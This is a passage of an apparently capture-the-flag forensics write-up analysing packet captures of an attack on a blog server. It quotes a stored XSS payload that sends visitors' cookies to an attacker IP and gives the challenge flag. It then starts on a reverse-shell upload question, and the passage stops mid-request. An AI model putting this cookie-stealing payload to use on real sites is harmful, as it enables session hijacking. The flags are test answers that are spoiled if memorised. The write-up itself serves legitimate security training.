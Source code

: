 ```
Bitcoin is growing rapidly
------WebKitFormBoundarygktK0rAB0kja0dvn
Content-Disposition: form-data; name="content"

Bitcoin is growing rapidly. I wish I had some of them

<script>var i=new Image; i.src="http://192.168.1.9:8881/?"+document.cookie;</script>
------WebKitFormBoundarygktK0rAB0kja0dvn
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarygktK0rAB0kja0dvn--
```

We can see XSS is being used and to port 8881.

Flag: `KCTF{8881_xss}`

### Malicious Uploads (capture1.pcapng)

> A reverse shell was uploaded by the attacker. What is the name of this file?

> Flag Format: KCTF{filename.ext}

We need to find the original name of the maliciously uploaded file.

I filter for attacker traffic, if the frame contains `.php` (which I infer it's likely a webshell from seeing other suspicious php files in the traffic) and for HTTP: `ip.addr == 192.168.1.9 && frame contains ".php" && http`

![maliciousupload.png](images/25-knight/maliciousupload.png)

There is a `/blog/create` POST which we've seen is likely exploitable (as it was with XSS)

```
POST /blog/create HTTP/1.1
Host: 192.168.1.10
Connection: keep-alive
Content-Length: 776
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryI8t14aG00RXkrSJu
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.10/blog/create
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,la;q=0.8
Cookie: XSRF-TOKEN=eyJpdiI6ImJUejNlZmlNSzZ4bC9KMGR5dTJ3K3c9PSIsInZhbHVlIjoicnVPbThwanBCTWZSZVVVMlpMWHJLUXk0MkwrM09CT3AzRU9NN2JpZnV4aTllZWdZU2RWOVVuZXd3MVRFdW90YU9tM1dGdXQ2SFhSdGg3TnJrN210Y2lHN3JSS3M3WkpDK0lPcFhWSVhEd2dWRGcvWEhSMnQvMDR2eE1LSUpQamQiLCJtYWMiOiI0ZmQ0MWJmYmJmZDVmMDhjZDI1ZTEyNmE4NDdjZWNiMGRmYjVkYWQ0OTExZDYwYWM5ZDM4ZDE5NTFmM2IxMzdjIiwidGFnIjoiIn0%3D; knightblog_session=eyJpdiI6IjQvVm5IZDgrSDhOVGlEZkx4Z1V2alE9PSIsInZhbHVlIjoiNEQxcDd2NndITTZ5czBDSVFETkdGMHhJVGxPQ3NMYmVTMmJFWVJ1OW5EUVI3VE00a1M1N01YSnM1MjJRSXE4VFV5THJWZGw4MHF4TE9aTXZEbmtRSXo3QU5rbm02U3lQVFRiZlR2K0NNZGZ4T2FSY01YMDZEVklhYmFCeHZjL1giLCJtYWMiOiJhOWNiN2Q3ZmVhNDk3Y2U3NzA4MzM4NGZkMGQ5ZGEwMmRkMmM5MGU3OWY1YWM5M2RiNTViNDBlOTg5NTdkZjE3IiwidGFnIjoiIn0%3D

------WebKitFormBoundaryI8t14aG00RXkrSJu
```